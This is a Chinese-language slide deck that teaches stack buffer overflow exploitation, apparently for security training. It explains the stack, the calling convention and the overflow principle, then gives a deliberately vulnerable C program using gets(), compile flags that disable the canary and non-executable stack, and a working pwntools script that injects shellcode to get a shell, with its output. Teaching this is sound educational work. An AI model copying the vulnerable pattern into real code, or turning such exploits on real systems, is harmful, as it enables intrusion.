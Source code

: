 ```yaml
---
presentation:
  width: 1600
  height: 900
  slideNumber: 'c/t'
  showSlideNumber: "all"
  center: true
  enableSpeakerNotes: true
  theme: none.css
---
```


<!-- slide data-notes="" -->
# 缓冲区溢出
<!-- slide data-notes="" -->
## 缓冲区溢出漏洞原理
### 什么是缓冲区
缓冲区是程序在执行过程中用于存放数据的地方，它通常是内存上的一段连续的地址，由程序或系统分配。
### 如何发生溢出
当存放进去的数据长度超过缓冲区本身限定的长度时，就会产生缓冲区溢出。
### 漏洞的危害
一般的缓冲区溢出，会被系统检测到错而中断退出。但一个精心构造的溢出，系统不仅不会检测到错误，还可以使攻击者获得被攻击主机的权限，实现任意指令执行。

<!-- slide data-notes="根据溢出发生的位置不同来分类，缓冲区溢出一般可以分为栈溢出和堆溢出两类。
" -->

### 缓冲区溢出类别
- 栈溢出
- 堆溢出
### 缓冲区溢出的基本条件
- 程序向用户请求输入，并向缓冲区写入数据。
- 向缓冲区写入数据时，数据的长度没有很好的限制。
<!-- slide data-notes="" -->
### 利用原理
控制指令寄存器，劫持程序执行流。
对于栈溢出，一般是通过覆盖栈上存储的函数返回地址，从而控制eip（对于64位则是rip），达到控制程序执行流程的目的。
堆溢出与之类似，但是堆上并没有存储函数返回地址的地方，所以堆溢出相对于栈溢出更为复杂和难以利用.
### 最终目的
getshell
shell通常指的是系统的命令行解释器，当攻击者得到shell，可以使用shell运行各种指令，实现入侵.
<!-- slide data-notes="
寻找溢出点：寻找危险函数，定位溢出长度。
构造溢出: 确定溢出内容，获取相关地址。
编写脚本进行攻击：编写代码，与攻击对象交互并实施攻击。" -->
### 缓冲区溢出过程
- 寻找溢出点
- 构造溢出
- 编写程序进行攻击
<!-- slide class="middle" data-notes="栈是一种先进后出的数据结构，一般有入栈（push）和出栈（pop）两种操作。" -->
### 栈
数据结构，先进后出
![](stack.png)
### 函数调用栈
程序被执行时会创建进程，进程会创建一个栈来保存局部变量和函数调用信息，需要注意的是在程序的栈空间是由高地址向低地址增长的。
<!-- slide data-notes="" -->
#### tips：为什么栈会反向增长
![](stack_why_re.png)
显然地，我们的习惯上比较接受的是从低地址向高地址增长的数据。
栈的反向增长令人困惑，但回溯历史便可以发现原因。早年计算内存空间很小，计算机需要同时在内存上维护栈和堆两个数据结构时，因为不好估计栈和堆的大小，最省事的方式就是把两个数据结构放在内存的两端，同时向中间增长，而栈一般就被放在了高地址，因而栈从高地址向低地址增长。有点像学生拿一个笔记本记两门课的笔记，一课从第一页开始记，另一课从最后一页开始记。
<!-- slide data-notes="X86：一般是将参数压栈进行传参。
传递的顺序由程序遵守的调用约定来决定，一般为从右到左。
X64：前几个参数由寄存器传递，其余由压栈传递。操作系统不同，传递参数的寄存器也不同。
Windows：RCX，RDX，R8，R9
*NIX：RDI，RSI，RDX，RCX，R8，R9
" -->
### 函数调用时发生了什么（x86）
1.  传递参数
2.	call 函数地址（push eip，jmp 被调函数地址）
3.	ebp入栈，当前esp复制到ebp，esp减去一个数值，形成该函数的栈空间
4.	初始化局部变量（自动变量）
5.	运行函数指令
6.	返回值传递
7.	pop ebp 
8.	ret（pop eip）
这里没有提到平衡栈帧的操作，实际上根据调用约定的不同，这个操作会在调用者或被调用者两个地方进行。

<!-- slide data-notes="" -->
### 栈上的数据
eip存储的是下一条要执行的指令的地址，所以若eip的值被修改为我们期望的地址，函数运行到ret时，程序将会跳到修改后的地址运行指令。根据上面来看，在进入函数时，通常栈上的数据是这样的。
可以看出，esp永远指向栈顶的位置，而ebp则永远指向当前函数空间的栈底。
![](funcation_stack.jpg)
<!-- slide data-notes="栈上存储函数返回地址在局部变量的相对高地址，若在输入局部变量时发生溢出，多出的数据会向高地址覆盖，最先覆盖的就是与之相邻的高地址局部变量，接下来时ebp和函数返回地址。这里的buffer的长度就是输入数据与函数返回地址之间的距离，这段数据的长度需要人为控制，保证ret数据覆盖到函数返回地址上。shellcode是用来发送到服务器利用特定漏洞的代码，它能在极小的空间内完成一些基本而重要的工作。Shellcode如何编写，由环境和目的决定，比如通过gets溢出时，shellcode要求不能出现’\x00’。" -->
### 简单的栈溢出
buffer + ret + shellcode
- buffer: 被调函数缓冲区空间
- ret: 函数返回地址
- shellcode: 执行后能够弹出shell的一段代码
<!-- slide data-notes="" -->
危险代码示例
```c
#include <stdio.h>  
#include <string.h>  
#include <stdlib.h>
int main(int argc, char **argv) 
{        
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    pwnthis();
    return 0;  
}  

int pwnthis()
{
    char s[10];
    printf("%x\n",s);
    gets(s);
    return 0;
}
```
<!-- slide data-notes="可以看到，代码中包含危险函数gets（），并且为了方便，我们打印了s[]的起始地址。将本代码保存到.c后缀的文本文件，并且用如下gcc指令来编译它。" -->
编译
```shell
gcc -m32 -fno-stack-protector -z execstack stack_overflow.c -o stack_overflow
```
-m32是指生成32位程序
-fno-stack-protector是指关闭canary保护（后面会讲到）
-z execstack是指关闭栈不可执行保护
Stack_overflow.c是源代码
-o：指定生成的输出文件
Stack_overflow就是生成的二进制文件
<!-- slide data-notes="" -->
编译成功后，用ida打开生成的二进制文件，定位到pwnthis（）函数，按f5生成伪代码，可以看到有：
```c
int pwnthis()
{
  char s; // [sp+6h] [bp-12h]@1

  printf("%x\n", &s);
  gets(&s);
  return 0;
}
```
其中，s的地址距ebp的长度为0x12。
<!-- slide data-notes="" -->
转到stack窗口查看，也有：
```sh
-00000012 s               db ?
-00000011                 db ? ; undefined
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009                 db ? ; undefined
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```
<!-- slide data-notes="" -->
- 溢出点：0x12+4
- shellcode地址：s+0x12+4+4
攻击脚本：
```python
from pwn import *
#context.log_level = 'debug' 
p = process("./stack_overflow")
sc = asm(shellcraft.i386.sh())    
temp = int(p.recvline(),16)               
sc_addr = p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc  
p.sendline(payload)
p.interactive()
```
<!-- slide data-notes="" -->
- `process（）`建立脚本和二进制程序的连接
- `shellcraft.i386.sh（）`用以生成i386下的shellcode
- `asm（）`将shellcode由汇编指令转换成机器码。
- Temp接收s[]的地址
- `sendline（）`将payload输入到二进程程序中
- `interactive（）`将控制交还给用户，以便于我们操作shell。
<!-- slide data-notes="" -->
效果如下：
```sh
lometsj@ubuntu:~/pwntest$ python p.py
[+] Starting local process './stack_overflow': pid 65319
[*] Switching to interactive mode
$ ls
core  p.py  stack_overflow  stack_overflow.c
$ cat p.py
from pwn import *
#context.log_level = 'debug' 
p = process("./stack_overflow")
sc = asm(shellcraft.i386.sh())    
temp = int(p.recvline(),16)               
sc_addr = p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc  
p.sendline(payload)
p.interactive()
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_overflow' stopped with exit code 0 (pid 65319)
[*] Got EOF while sending in interactive
```

<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
